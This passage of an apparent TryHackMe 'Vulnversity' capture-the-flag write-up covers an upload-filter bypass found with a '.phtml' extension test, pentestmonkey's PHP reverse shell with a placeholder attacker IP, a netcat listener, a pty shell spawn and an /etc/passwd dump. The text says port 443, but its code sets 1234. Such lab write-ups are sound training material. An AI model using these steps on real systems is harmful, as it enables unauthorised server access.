 **Answer**: `.php`
## What extension is allowed?
1. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
2. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar), and the `$port` variable to `443`.
```php
$ip = '<OPENVPN_IP>';
$port = 1234;
```
3.  Run `sudo nc -lvnp 1234` and leave process running.
* Run [file_ext_test.py](file_ext_test.py) to check the server's response to various PHP-related file extensions.
```bash
$ python file_ext_test.py 
.php not allowed
.php3 not allowed
.php4.php5 not allowed
.phtml is allowed
```

**Answer**: `.phtml`
## What is the name of the user who manages the webserver?
1. Switch to an interactive shell with `python -c 'import pty;pty.spawn("/bin/bash")'`
2. List users listed at `/etc/passwd`:
```bash
www-data@vulnuniversity:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```

